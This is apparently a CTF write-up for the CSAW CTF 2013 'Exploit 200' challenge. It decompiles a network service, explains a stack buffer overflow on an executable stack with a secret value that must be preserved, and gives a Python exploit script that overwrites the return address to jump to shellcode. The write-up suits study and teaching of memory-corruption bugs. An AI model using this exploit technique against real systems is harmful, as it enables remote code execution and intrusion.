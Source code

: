 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 200"
---
```


Source were not provided, but with IDA and Hex-Ray we can get the following pseudocode:

```c

int __cdecl handle(int fd)
{
  int result; // eax@1
  unsigned int v2; // eax@1
  char buf; // [sp+1Ch] [bp-80Ch]@1
  char v4; // [sp+81Bh] [bp-Dh]@1
  int v5; // [sp+81Ch] [bp-Ch]@1

  v5 = 0;
  memset(&buf, 0, 0x800u);
  v2 = time(0);
  srand(v2);
  secret = rand();
  v5 = secret;
  *(_DWORD *)&buf = &buf;
  send(fd, &buf, 4u, 0);
  send(fd, &v5, 4u, 0);
  send(
    fd,
    "Welcome to CSAW CTF.  Exploitation 2 will be a little harder this year.  Insert your exploit here:",
    0x63u,
    0);
  recv(fd, &buf, 0x1000u, 0);
  v4 = 0;
  result = secret;
  if ( v5 != secret )
  {
    close(fd);
    exit(0);
  }
  return result;
}

```

First thing to note is that `recv` read `0x1000` bytes of data into a buffer of `0x800`. We can use this to rewrite stack data. The overflow is big enough to rewrite the return address.

By running `readelf -l exploit2` we get `GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`, so the stack is executable (E flag in RWE).

All we need to do is to send our favorite shellcode and rewrite the return adresse to jump on our shellcode at the buffer location. The buffer location is sent by the application (`send(fd, &buf, 4u, 0);`).

The last thing to note is the `secret` variable. It is use to hold a random number and its value is copied into `v5`. If the value of `v5` changed after we send our payload, the program exit. Therefor, we need to keep the same value when we rewrite the stack since `v5` is before the buffer. Luckily, the secret value is sent before `recv`, so we can write it in our payload.

Our final exploit code was the following:

```python

shellcode = ''
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('128.238.66.212', 31338))

buf_size = 0x800
buf_addr = s.recv(4)
secret = s.recv(4)
s.recv(1024)

payload = shellcode + '\x90' * (buf_size-len(shellcode)) + secret + '\x90' * 12 + buf_addr

s.send(payload)

```

